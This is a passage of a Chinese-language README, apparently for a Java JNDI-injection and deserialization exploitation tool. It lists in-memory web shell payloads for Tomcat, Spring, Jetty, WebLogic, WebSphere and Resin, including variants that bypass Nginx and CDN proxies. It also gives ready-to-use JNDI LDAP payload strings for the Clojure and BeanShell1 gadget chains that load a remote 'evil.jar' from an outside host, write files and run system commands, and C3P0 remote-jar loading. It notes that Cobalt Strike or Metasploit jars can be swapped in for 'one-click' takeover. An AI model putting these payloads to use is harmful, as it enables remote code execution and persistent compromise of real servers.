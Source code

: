 * ```WSFilter```: `CMD` 命令回显 WebSocket 内存马，`cmd命令回显`
* ```TomcatExecutor``` : Executor 内存马，`cmd命令回显`
* ```TomcatUpgrade```: TomcatUpgrade 内存马，`cmd命令回显`
* ```Struts2ActionMS```: Action 类型内存马
* ```cmsMSBYNC```: 绕过Nginx、CDN代理限制的 WebSocket 马，路径`/x`
* ```proxyMSBYNC```: 绕过Nginx、CDN代理限制的 WebSocket 马，路径`/x`
* ```WsResin```: 适配 Resin 的 WebSocket 马，请求头中`Upgrade: websocket`
* ```MsTSJser```: 适配Tomcat、Spring、Jetty的 WebSocket 马，路径`/cmd`
* ```MsTSJproxy```: 适配Tomcat、Spring、Jetty的 WebSocket 马，路径`/proxy`
* ```WsWeblogic```: 适配 Weblogic 的 WebSocket 马，路径`/path`
* ```WSWebsphereProxy```: 适配 Websphere 的 WebSocket 马，路径`/path`

---

## 1.2 BeanShell1 与 Clojure 利用链的拓展

对于 `BeanShell1` 及 `Clojure` 这两个基于脚本语言解析的漏利用方式。

本项目为这两条利用链拓展了除了 Runtime 执行命令以外的多种利用方式，具体如下：

`Base64/`后的内容需要base64编码

TS ：Thread Sleep - 通过 Thread.sleep() 的方式来检查是否存在反序列化漏洞，使用命令：TS-10

```
jndi:ldap://127.0.0.1:1389/Deserialization/Clojure/command/Base64/TS-10
```

RC ：Remote Call - 通过 URLClassLoader.loadClass()
来调用远程恶意类并初始化，使用命令：RC-http://xxxx.com/evil.jar#EvilClass

换成CS或者MSF生成的JAR包，即可完成一键上线。

```
jndi:ldap://127.0.0.1:1389/Deserialization/Clojure/command/Base64/RC-http://xxxx.com/evil.jar#EvilClass
```

WF ：Write File - 通过 FileOutputStream.write() 来写入文件，使用命令：WF-/tmp/shell#123

```
jndi:ldap://127.0.0.1:1389/Deserialization/Clojure/command/Base64/WF-/tmp/shell#123
```

其他：普通命令执行 - 通过 ProcessBuilder().start() 执行系统命令，使用命令 whoami

```
jndi:ldap://127.0.0.1:1389/Deserialization/Clojure/command/Base64/whoami
```

---

## 1.3 C3P04的使用

* 远程加载 Jar 包
  * C3P04 'remoteJar-http://1.1.1.1.com/1.jar'
* 向服务器写入 Jar 包并加载（不出网）
  * C3P04 'writeJar-/tmp/evil.jar:./yaml.jar'
  * C3P04 'localJar-./yaml.jar'
* C3P0 二次反序列化
  * C3P04 'c3p0Double-/usr/CC6.ser'
